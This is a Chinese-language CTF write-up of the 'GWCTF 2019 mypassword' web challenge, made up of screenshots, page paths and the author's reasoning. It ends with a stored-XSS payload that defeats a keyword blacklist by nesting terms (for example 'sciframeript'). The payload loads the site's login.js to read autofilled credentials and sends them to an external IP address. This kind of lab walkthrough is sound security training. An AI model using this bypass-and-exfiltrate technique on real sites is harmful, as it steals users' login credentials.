# [GWCTF 2019]mypassword
![](<./img/Pasted image 20230221173257.png>)

```
/login.php
```

![](<./img/Pasted image 20230221173321.png>)

```
/register.php
```

![](<./img/Pasted image 20230221173341.png>)

```
username: a
password: 1
```

```
/index.php
```

![](<./img/Pasted image 20230221173622.png>)

```
/feedback.php
```

![](<./img/Pasted image 20230221174611.png>)

```
/list.php
```

![](<./img/Pasted image 20230221174835.png>)

没有什么思路.jpg

在`/feedback.php`下发现了奇怪的东西

![](<./img/Pasted image 20230221175025.png>)

像是`XSS`的样子，还自带了一个方便绕过的黑名单，感动

但是利用方式完全不知晓，毕竟不知道账号密码什么的到底放哪了

看了wp，发现居然漏掉了`login`页面的审计，大意了qaq

![](<./img/Pasted image 20230221175521.png>)

![](<./img/Pasted image 20230221175558.png>)

通过`login.js`来实现自动填充密码的功能

这样就知道了明文账密的位置，但由于`cookie`在黑名单的最后一个，无法通过插入处于自己后面的关键词绕过，所以再来一波借刀杀人，拿`login.js`来获取账密

```html
<inscriptput type="text" name="username">
<inscriptput type="password" name="password">
<sciframeript srgetElementc="./js/login.js"></sciframeript>
<sciframeript>
	var username = docookiecument.gedocumenttElementsByName("username")[0].value;
	var password = docookiecument.gedocumenttElementsByName("password")[0].value;
	docookiecument.losvgcation = "http://193.111.30.158:2333?info=" + username + "|" + password;
</sciframeript>
```

![](<./img/Pasted image 20230221183940.png>)
